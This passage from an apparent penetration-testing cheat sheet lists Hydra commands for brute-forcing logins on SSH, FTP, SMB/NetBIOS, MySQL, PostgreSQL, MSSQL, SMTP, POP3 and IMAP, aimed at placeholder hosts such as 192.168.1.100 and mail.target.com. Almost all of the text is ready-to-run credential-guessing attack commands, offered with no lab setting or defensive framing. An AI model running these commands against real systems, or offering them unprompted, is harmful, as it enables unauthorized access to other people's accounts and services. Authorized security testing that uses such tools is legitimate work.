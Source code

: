 ```bash
```

---

## 🔐 Network Service Attacks

### 1. SSH Brute Force
```bash
# Basic SSH attack
hydra -l root -P pass.txt ssh://192.168.1.100

# SSH with specific port
hydra -l root -P pass.txt ssh://192.168.1.100:2222

# SSH with timeout
hydra -w 5 -l root -P pass.txt ssh://192.168.1.100
```

### 2. FTP Attacks
```bash
# FTP brute force
hydra -L users.txt -P pass.txt ftp://192.168.1.100

# Anonymous FTP check
hydra -l anonymous -p "" ftp://192.168.1.100
```

### 3. SMB/NetBIOS Attacks
```bash
# SMB brute force
hydra -L users.txt -P pass.txt smb://192.168.1.100

# NetBIOS attack
hydra -L users.txt -P pass.txt 192.168.1.100 smb
```

### 4. Database Attacks
```bash
# MySQL brute force
hydra -L users.txt -P pass.txt mysql://192.168.1.100

# PostgreSQL attack
hydra -l postgres -P pass.txt postgres://192.168.1.100

# MSSQL attack
hydra -L users.txt -P pass.txt mssql://192.168.1.100
```

### 5. Email Service Attacks
```bash
# SMTP brute force
hydra -L users.txt -P pass.txt smtp://mail.target.com

# POP3 attack
hydra -L users.txt -P pass.txt pop3://mail.target.com

# IMAP attack
hydra -L users.txt -P pass.txt imap://mail.target.com
```

---